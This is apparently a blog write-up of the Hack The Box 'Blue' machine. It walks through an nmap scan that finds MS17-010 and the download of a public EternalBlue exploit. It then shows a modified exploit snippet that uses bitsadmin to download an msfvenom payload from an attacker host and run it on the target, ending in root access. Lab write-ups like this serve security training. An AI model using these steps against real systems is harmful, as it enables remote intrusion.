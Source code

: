 ```yaml
---
layout: post
title:  "HTB Blue Windows"
description : Easy machine, Ethernalblue exploit and metasploit is all what is needed
tags: HTB, msfvenom, python
---
```


# HTB BLue

# Recon
Nmap scan
```ruby
nmap/Vulns_10.10.10.40.nmap 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up (0.044s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```
# Exploitation
The target machine is vulnerable to the infamous Ethernalblue exploit. 
First we gonna use the metasploit module `auxiliary/scanner/smb/pipe_auditor` so we can use a valid PIPE name from the SMB.
![](https://lh3.googleusercontent.com/0PKB1HI1YseEYeGKuxY6eiv8QtP0FJkw3utrndTzyql8LBnn_txCz-QWh-6bCkreyYR8HmNsbN2b7LlRFSzjyTH5Mmvbs9O6pjobhrJWktjDGryAYQK9Q-DBl9zwSMp6E1L796xTub9Ioh7bx3mRsW-YK6IEM0yR9wcun-rD3PSnucV7o9NPo0x0HRJgIKxWOFOx8T32mZ2GwVBK208TULyCONRmi485TjsAnawOL2B3gMvsyXSgGkuIGgoZzUq9rn1QjmLojcUQo7Djcm15_nCaLBtbz_6NlooIVBS9evdqXDVOMFHYOhC9dmMJPS8xYRWglqC6e4FYNulHCPQoJGtGPC-x10FUBFE-qE9tRqyM439K6NNfdxdmoVhK4YnSnEWsBrhU_zWohR7z03TKqT8QdhqrN91cvtrlZt1QQo6QMOmvXnXDc7nfUfgJiga7fLxp18FH7FeGYVixSoVC6IYOhog1ZTpGk6ITgX4SG7qNMgg7PxriGsoJoiZafpX1cT_d3B2zuA9VhSf1APwHLg_Z7luR0njhru2cZeYg023_cXRu_rqTmvJKxkRbcP0PkfxnS2tZqskY3BssuWsyyx0lgImf-PCFwsQigU90g_ANQ1atpDJUOUPuQOckKsBRSODnev6cTsd9rOH4cHT0Ro5IysdH6z-FqpYGREt4SfBXn-Z_09UFUqM=w1332-h176-no)

We download the EthernalBlue python exploit from **worawit**
```
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py 
```
We create our shell using msfvenom
![](https://lh3.googleusercontent.com/e0kfHstDjnfrIWY5JcTvFAwefzj-Yg146bBHiq6jkOWc7GcJEYMFSAkUmUFQb9LEWNvDzyOsfByt-HFjsnAv_IYEbHI4Yba-4Gpqz2kUd_IJEvhJbs-iTxgY-aZk6EnRW29WALCRWD1I-at-MhVzvehpTNUuSwACpLK-Bo9q8RFUPpt04iXqVV1H1ajoemMRgsg_Aj0jJXr8olg6MeX_aqk2og9aLHmj5pAeC41bzja1Y47aaD_S7xKmJj66_vduTjPL-f8-zhOUFvH44snmXlkAzbria3o-9jLMFCGrxhK0LXMH8YMKgoN8TtTtAGho-8gEiSEjVvs0MrO5hmHEwD9RRuV2SI9MGNHfG0yH4kF8lHD8z9dP35WC5B7HTYgTKBXiAgiEItbriaDd4L36aTleCpclM7ik9aOwoizTIy8-XQUGhk0JgtAXlCfboQoclZjsfO4x60smJDmqttClXWRfXgd8btaAW7QCLHJ5zmdiimsSDazRXO0BMhwsMociCl6Yxs5RVf5oWJPxvXtb4hdb89wlCMHJg2m9hHOqrCFeMF_4iaM-cyNY6OfkyW2rfO0IcuxBxUBNKJEGBdxqBhEaYgKZ-GLucyfLxzL7d-jcV5f5e3x5JBr4fucV9wCr8gp8TB8q_9ZBLqrz9veNYPN02BCK1JRCrnkM_FU326PusQ2qgnExr8s=w1341-h248-no)

We modified the exploit to call for our payload to be donwloaded on our target machine

```ruby
#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
	service_exec(conn, r'cmd /c bitsadmin /transfer pwn /download http://10.10.14.14/sc.exe C:\sc.exe')
        service_exec(conn, r'cmd /c /sc.exe')
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
  ```
  
We run the exploit along with a valid PIPE to use and our payload is executed
![](https://lh3.googleusercontent.com/BMpjy9RPHcyQV9UQEpeJGAzKjRn3oTPhLyF3jZbp_MaC3ZYpfZjHEAlFzb9kzoRg7JDLxTYysPW17FubtYTxyngbO-ZvUyWxWKK2vlT7eVO2T0kPywpkCAhsH1kLXK1Xuum2hXsKtAFofZTzBJIgBwKLGU9QArHcaN9BhOVkdVHADy9rqqBNMdWWws2TjRCwuP1IZGSXqYnWHH5a3rzKyboFL03rJL6LqAEE5qKRiK0v812BxRcK6LfCS7J-XJMgG4s0snBTGsoPgss9KcEWxbKNa7plQtv18wTExP8SwkkJbO7V4c8CP7aiuHbMdR-Y-Gehy_4cihVKdZjzI0LjTzyOZM47NwAwpaNAJ5Zz1PNAX1UaUI1ubZ69_BpAB5U9eQ89FhZbx6Yf1DPURFQbQX1ZEltfX2Gd8ZwuIr02EmJLLpC4rqljqBqZ70gCFz669lZidurG2yKSJMeCaHfvd76guVJ-dyZLJSIK7TYYwZxO2C5zEFHeoQ6tEgavG5U70y-NeLdchHaUtzyuszlxV3b_hADqDmhnrRyWgVypT9mH6ZDLzlAsmYxG4L-B0KSXeBx0Bgr1VMLOvxgSCY8kE5O1qDotOVoWUn3NkAHq1CIlfdQaehk_yv-NZwQyKfnpE6J87xwCrer26Zvdc5Bhp6KIJ1ZAGzCb8pZ5-rSzuxgGe1QkFphM11s=w537-h464-no)

![](https://lh3.googleusercontent.com/qWP4JICNTD1mwhXK_J56RU6BpPxTHbP_QIEO3X2kzyF5vaCk6Qo_VxSi-Y6HUOImkgeRY_VyRcmycfuUXF10Vbz3kVeGohsBWdI6B72Ara0nuK6Bc9B9vXlew4wwKKqjEYpphpQFpM3n9oMtwIgrgd0gToBF2gXVARYXXAMFJ9XSD8uEG45crUInDuBn6WGFmFFIi3UVhMAmqmOldH685UT-FyYN4JeJzTuYOay5PKmwiYQ2vo-qqWWpJvsA2MCoCMCR6fFttbjqgTGV-k37fx2cWtD3wWzEOefodCAG2GrZ8VtvZjAdsAfJqUijVqWF5WU_YxHiwnxFWMQqgnctXoqGnx0xfOs2LnVqTRTD5ysQ2bJ4Qc3cHj29W1gUdU5y5qrAR8LSxTg-FHdULZGRvlX1sJ68igPyffb4J8pJ_bmaI78JIAvAVY53-BvFarM_Wzm3ubg8dcgrwt32rtOfhDHMwk1HAd8AJ0AWBEmq4IBzVGudBwqILdR0_tr_QL0N08G6K_CTcfRdOQGTkYQQJkqlN0jXsA_SlgE41fbTP9D07KjJc61zZa8NeWCWjXZUImchmHK2pJ1iPiUml8DshqFXGWjI71auMBbd9zIFEppATj9i8BXWJy8z5_f_Ew8q4l897Nx_smtg7NSZhnD5LTzbI38flAVMnDDt6m9u-Kb0vVFW74oaX2s=w1101-h458-no)

Finally we got Root level access.
![](https://lh3.googleusercontent.com/ZuFWg4MRj-bxX7daE4pDG6LaC8yHBO6LkhK9lKTogq-3zIU4pmU5qeL7EtXLAorU4Hoj726K_LkKQUw8_qexnzkYq0ti_jaspduSSamfXC5hX1v80Tt-1NpCi4LGUxaE607VHatFo5bVlQNRQri5L-G5IoZerYUIDgrDYK550eYCWfDB6kPn6uUAq00nIMp-G5BCwLkNcw2j5S1xcKJ_dddk5Mo_sEu7Uc6gnOO7oaAG3-2lquvUgk5r4huXPQhKz5-zVPiUPoqc5q-2-w1F5PFBLKnDMkT-XkF0wQyIuZy-4xhqAZZkpaw_XPIf7nQ6Rh6BXEmfxr336sw2tKCP1KcDvt8wFdLUnM5Oqf0cgiv80FDW2_sEYHDGhsBaTsGD37D0ESe_7ZuthcDYyH5eynB7kZE4VwvUd2fSE9e2duWuQebOpmsUuRPGkxlc97IpWKIJvNyUeH5H5SRAgGK-RlfxMqbuvdpllLeOrNfRsjzx897BR-iIqBvwJz2y04cHdOWR7mjsfefUCY_GeExlPCxwQIGsvLqwwdP8uC-81cYdXANuxTAIz4Ty18wBAQXRkHvZQkL9TyIgfuphRHy_xI1b7pfXzZog8f3n3vJm9MiHFfHHTLiGgIXBFztHztXN2rVi5NJx--CJv576xPiTzkV1wRH_r1VX-7vpY52FgJ0WQhLolq7RhNA=w1032-h393-no)


